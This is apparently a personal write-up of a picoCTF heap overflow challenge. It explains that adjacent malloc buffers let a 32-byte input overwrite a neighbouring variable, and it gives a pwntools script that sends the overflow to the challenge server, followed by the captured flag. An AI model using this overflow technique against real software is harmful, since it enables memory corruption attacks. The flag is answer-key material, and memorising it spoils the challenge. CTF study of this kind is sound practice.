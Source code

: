 ```yaml
---
created: 2024-08-08T00:20
updated: 2024-08-08T01:08
---
```


Since two `malloc` are fired in succession, their memory addresses are likely to be right next to each other.

| Variable     | Address          | Data   |
| ------------ | ---------------- | ------ |
| `input_data` | `0x59a3f74dc2b0` | `pico` |
| `safe_var`   | `0x59a3f74dc2d0` | `bico` |

The addresses themselves however could be separated by the block size.
IIRC `malloc` do this to make memory access more efficient.

We can hence overflow `input_data` with 32 characters.

```python
from pwn import *
# nc tethys.picoctf.net 55998
t = remote('tethys.picoctf.net', 55998)
t.sendlineafter(b": ", b"2")
t.sendlineafter(b": ", b"A"*32+b"pico")
t.sendlineafter(b": ", b"4")
info(t.recvall())
```

```flag
picoCTF{starting_to_get_the_hang_79ee3270}
```
